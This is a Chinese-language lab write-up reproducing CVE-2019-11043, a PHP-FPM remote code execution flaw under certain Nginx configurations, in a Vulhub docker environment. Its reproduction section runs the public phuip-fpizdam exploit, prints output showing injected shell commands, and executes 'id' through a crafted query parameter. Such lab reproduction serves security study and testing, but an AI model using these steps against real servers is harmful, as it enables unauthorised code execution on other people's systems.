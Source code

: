 # PHP-FPM 远程代码执行漏洞 CVE-2019-11043

## 漏洞描述

在长亭科技举办的 Real World CTF 中，国外安全研究员 Andrew Danau 在解决一道 CTF 题目时发现，向目标服务器 URL 发送 %0a 符号时，服务返回异常，疑似存在漏洞。

在使用一些有错误的Nginx配置的情况下，通过恶意构造的数据包，即可让PHP-FPM执行任意代码。

参考链接：

- https://bugs.php.net/bug.php?id=78599
- https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
- https://github.com/neex/phuip-fpizdam

## 漏洞影响

在 Nginx + PHP-FPM 环境下，当启用了上述 Nginx 配置后，以下 PHP 版本受本次漏洞影响：

```
PHP 7.0 版本
PHP 7.1 版本
PHP 7.2 版本
PHP 7.3 版本
```

另外，PHP 5.6版本也受此漏洞影响，但目前只能 Crash，不可以远程代码执行。

## 环境搭建

Vulhub执行如下命令启动有漏洞的Nginx和PHP：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/index.php`即可查看到一个默认页面。

## 漏洞复现

使用https://github.com/neex/phuip-fpizdam中给出的工具，发送数据包：

```
$ go run . "http://your-ip:8080/index.php"
2019/10/23 19:41:00 Base status code is 200
2019/10/23 19:41:00 Status code 502 for qsl=1795, adding as a candidate
2019/10/23 19:41:00 The target is probably vulnerable. Possible QSLs: [1785 1790 1795]
2019/10/23 19:41:02 Attack params found: --qsl 1790 --pisos 152 --skip-detect
2019/10/23 19:41:02 Trying to set "session.auto_start=0"...
2019/10/23 19:41:02 Detect() returned attack params: --qsl 1790 --pisos 152 --skip-detect <-- REMEMBER THIS
2019/10/23 19:41:02 Performing attack using php.ini settings...
2019/10/23 19:41:02 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/23 19:41:02 Trying to cleanup /tmp/a...
2019/10/23 19:41:02 Done!
```

![image-20230328161616798](images/image-20230328161616798.png)

可见，这里已经执行成功。

我们访问`http://your-ip:8080/index.php?a=id`，即可查看到命令已成功执行：

![image-20230328161631365](images/image-20230328161631365.png)

注意，因为php-fpm会启动多个子进程，在访问`/index.php?a=id`时需要多访问几次，以访问到被污染的进程。
